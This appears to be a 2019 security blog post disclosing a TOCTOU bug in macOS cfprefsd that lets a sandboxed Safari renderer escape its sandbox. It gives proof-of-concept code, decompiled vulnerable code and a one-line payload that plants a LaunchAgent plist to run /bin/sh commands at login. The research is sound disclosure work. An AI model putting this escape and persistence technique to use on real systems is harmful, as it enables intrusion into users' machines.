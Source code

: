 ```yaml
---
layout:	post
title:	"One-liner Safari Sandbox Escape Exploit"
date:	2019-03-26
image:  /img/2019-03-26-one-liner-safari-sandbox-escape/one-line-escape.webp
desc:   "TOCTOU bug in CoreFoundation and state change of sandbox lockdown on macOS Safari, leading to easy sandbox escape."
---
```


I am writing about a dead simple and reliable sandbox escape exploit which only have one line of code. Yeah I am sure it's an exploit, not just PoC. It has nothing to do with iOS.

The bug was refactored (or killed) before the beta release of Mojave. The latest vulnerable version is macOS High Sierra 10.13.6 (17G65).

Since it's part of a browser exploit chain you'll need a renderer exploit to gain shellcode execution first. If not, disable SIP so you can debug, attach lldb to a running `com.apple.WebKit.WebContent.xpc` and use the following command:

```
po CFPreferencesSetAppValue(@"Label", @"You know what should be put here", [(id)NSHomeDirectory() stringByAppendingPathComponent:@"Library/LaunchAgents/evil.plist"])
```

This line will generate a new plist under `~/Library/LaunchAgents`. With the proper arguments you can launch a Calculator or anything you like after re-logging into system.

What's going on here? Isn't that supposed to be blocked by the sandbox?

## The bug

The key is that there's a TOCTOU in `cfprefsd` that you **don't even need to race**.

There are [Preferences Utilities](https://developer.apple.com/documentation/corefoundation/preferences_utilities?language=objc) in CoreFoundation for reading and saving plist serialized preferences on macOS.

* <https://developer.apple.com/documentation/corefoundation/1515497-cfpreferencescopyappvalue?language=objc>
* <https://developer.apple.com/documentation/corefoundation/1515528-cfpreferencessetappvalue?language=objc>

Most developers are in favor of `NSUserDefaults`. They are similar for reading and setting serialized key value data, but `NSUserDefaults` is designed for containerized environment (like apps from App Store), while Preferences Utilities has an explicit argument for accessing data from other applications.

These plist files are usually located in:

* `/Library/Preferences` for root privileged processes
* `~/Library/Preferences` for normal, un-containerized process
* `~/Library/Containers/{bundle_id}/Data/Library/Preferences` for containerized apps from mac App Store

The `applicationID` can also be an absolute path, just like the given one-liner. But it's supposed to perform permission check on the parameter. Why did it even work?

These functions internally invoke XPC with `cfprefsd`, as implemented in `CoreFoundation`. The daemon surely will check the sandbox state and permission of the incoming message with `sandbox_check`.

Unfortunately there used to be an implementation error. It mistakenly caches the result of `sandbox_check` from the beginning, and keep trusting it during the whole session.

The vulnerable function:

```cpp
void ____CFPrefsMessageSenderIsSandboxed_block_invoke(int context, int param_2) {
	int sandboxed;
	undefined4 *puVar1;
	if (*(int *) (param_2 + 0x1c) == 0) {
		sandboxed = _sandbox_check(*(undefined4 *) (context + 0x18),0,
				*(undefined4 *)SANDBOX_CHECK_NO_REPORT);
		*(bool *)(*(int *)(*(int *)(context + 0x14) + 4) + 0x10) = sandboxed != 0;
		puVar1 = (undefined4 *)PTR__kCFBooleanFalse 0048b070;
		if (*(char *)(*(int *) (*(int *) (context + 0x14) + 4) + 0x10) != 0) {
			puVarl= (undefined4 *)PTR__kCFBooleanTrue0048b074;
		}
		*(undefined4 *)(param_2 + 0x1c) = *puVar1;
	} else {
		*(bool *)(*(int *)(*(int *)(context + 0x14) + 4) + 0x10) =
			*(int *)(param_2 + 0x1c) == *(int *)PTR__KCFBooleanTrue_0048b074;
	}
	return;
}
```

The client process first initiates an XPC connection with `cfprefsd`, its sandbox state is checked with `sandbox_check` function. The result is cached for the duration of this XPC session. Thus, new `CFPreference` operations are still allowed by `cfprefsd` after sandbox lockdown because of this cached result.

## PoC

Minimal test case here.

The following `CopyAppValue` request obviously will fail:

```objectivec
init_sandbox(); // copy the implementation from WebKit source
NSLog(@"read: %@", CFPreferencesCopyAppValue(CFSTR("CFBundleGetInfoString"), CFSTR("/Applications/Calculator.app/Contents/Info")));
```

```bash
bogon:Downloads vm$ ./a.out
2019-03-14 07:47:48.068 a.out[1028:33847] read: (null)
```

The console output for the first try:

> rejecting read of { /Applications/Calculator.app/Contents/Info, kCFPreferencesAnyUser, kCFPreferencesCurrentHost, no container, managed: 0 } from process 1028 because accessing preferences outside an application's container requires user-preference-read or file-read-data sandbox accessNow let's put an extra read operation before init_sandbox, the second call will surprisingly work:

If a process has accessed CFPreferences utilities before it goes into sandbox state, there will be no further sandbox check.

```objectivec
CFPreferencesCopyAppValue(CFSTR("TALLogoutSavesState"), CFSTR("com.apple.loginwindow"));
init_sandbox();
NSLog(@"after: %@", CFPreferencesCopyAppValue(CFSTR("CFBundleGetInfoString"), CFSTR("/Applications/Calculator.app/Contents/Info")));
```

```bash
bogon:Downloads vm$ ./a.out
2019-03-14 07:47:08.347 a.out[1026:33710] after: 10.13, Copyright © 2001-2017, Apple Inc.
```

## Study on WebKit

Let's take a look at WebKit's sandbox implementation.

According to the sandbox profile, `process-exec` is prohibited (all rules not explicitly allowed goes to `deny default`)

<https://opensource.apple.com/source/WebKit2/WebKit2-7601.1.46.125/WebProcess/com.apple.WebProcess.sb.in.auto.html>

WebKit has a multi-process architecture, so it needs to spawn the process before containerization. At the very beginning of the renderer process creation, it's just a normal process.

Unfortunately the renderer process has such interaction with `CFPreferences` during process initialization:

```
 frame #17: 0x00007fff454e015a CoreFoundation` _CFPreferencesCopyAppValueWithContainerAndConfiguration + 107
 frame #18: 0x00007fff47868b94 Foundation` -[NSUserDefaults(NSUserDefaults) init] + 1423
 frame #19: 0x00007fff47870c3a Foundation` +[NSUserDefaults(NSUserDefaults) standardUserDefaults] + 78
 frame #20: 0x00007fff42a3ba4e AppKit` +[NSApplication initialize] + 90
 frame #21: 0x00007fff71678248 libobjc.A.dylib` CALLING_SOME_+initialize_METHOD + 19
 frame #22: 0x00007fff7166800c libobjc.A.dylib` _class_initialize + 282
 frame #23: 0x00007fff71667a19 libobjc.A.dylib` lookUpImpOrForward + 238
 frame #24: 0x00007fff71667494 libobjc.A.dylib` _objc_msgSend_uncached + 68
 frame #25: 0x0000000100001627 com.apple.WebKit.WebContent` ___lldb_unnamed_symbol1$$com.apple.WebKit.WebContent + 519
 frame #26: 0x00007fff72743ed9 libdyld.dylib` start + 1
```

After the initialization, it calls ChildProcess::initializeSandbox to enter sandbox and load untrusted content.

<https://opensource.apple.com/source/WebKit2/WebKit2-7601.1.46.9/Shared/ios/ChildProcessIOS.mm.auto.html>

```cpp
void ChildProcess::initializeSandbox(const ChildProcessInitializationParameters& parameters, SandboxInitializationParameters& sandboxParameters)
{
#if ENABLE(MANUAL_SANDBOXING)
    NSBundle *webkit2Bundle = [NSBundle bundleForClass:NSClassFromString(@"WKView")];
    String defaultProfilePath = [webkit2Bundle pathForResource:[[NSBundle mainBundle] bundleIdentifier] ofType:@"sb"];
    if (sandboxParameters.systemDirectorySuffix().isNull()) {
        String defaultSystemDirectorySuffix = String([[NSBundle mainBundle] bundleIdentifier]) + "+" + parameters.clientIdentifier;
        sandboxParameters.setSystemDirectorySuffix(defaultSystemDirectorySuffix);
    }

    String sandboxImportPath = "/usr/local/share/sandbox/imports";
    sandboxParameters.addPathParameter("IMPORT_DIR", fileSystemRepresentation(sandboxImportPath).data());

    switch (sandboxParameters.mode()) {
    case SandboxInitializationParameters::UseDefaultSandboxProfilePath:
    case SandboxInitializationParameters::UseOverrideSandboxProfilePath: {
        String sandboxProfilePath = sandboxParameters.mode() == SandboxInitializationParameters::UseDefaultSandboxProfilePath ? defaultProfilePath : sandboxParameters.overrideSandboxProfilePath();
        if (!sandboxProfilePath.isEmpty()) {
            CString profilePath = fileSystemRepresentation(sandboxProfilePath);
            char* errorBuf;
            if (sandbox_init_with_parameters(profilePath.data(), SANDBOX_NAMED_EXTERNAL, sandboxParameters.namedParameterArray(), &errorBuf)) {
                WTFLogAlways("%s: Couldn't initialize sandbox profile [%s], error '%s'\n", getprogname(), profilePath.data(), errorBuf);
                for (size_t i = 0, count = sandboxParameters.count(); i != count; ++i)
                    WTFLogAlways("%s=%s\n", sandboxParameters.name(i), sandboxParameters.value(i));
                exit(EX_NOPERM);
            }
        }

        break;
    }
```

So `cfprefsd` will always treat it like a normal process.

<p class="full"><img src="/img/2019-03-26-one-liner-safari-sandbox-escape/cfprefsd-toctou.svg" alt="TOCTOU"></p>

No additional action required, just access arbitrary preferences from arbitrary domain under same uid with these utilities. Let's assume you've already archived rop or shellcode to `dlopen` the escape payload, all you need to put in the dylib constructor function is the following one line of code:

```objectivec
CFPreferencesSetAppValue(CFSTR("ProgramArguments"), (__bridge CFArrayRef)@[@"/bin/sh", @"-c", @"open -a Calculator"], (__bridge CFStringRef)[NSHomeDirectory() stringByAppendingPathComponent:@"Library/LaunchAgents/evil.plist"]);
```

LaunchAgent requires logging off, so I digged around and found another way to trigger the code execution outside instantly. Well this instant trigger actually has nearly 80 lines of code (make it clear in case of the Criticism for the title).

Here's the live demo chained with WebSQL renderer exploit from Pwn2Own 2017 (credit to Slipper & Kelwin). Don't have a working renderer exploit on High Sierra now so I use the old one.

## Demo

<iframe src="https://www.youtube.com/embed/rOcDnmZXAHU" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

This bug affects at least from El Capitan to High Sierra (10.13.6), or maybe even earlier version. No CVE assigned but I think it's worth branding.
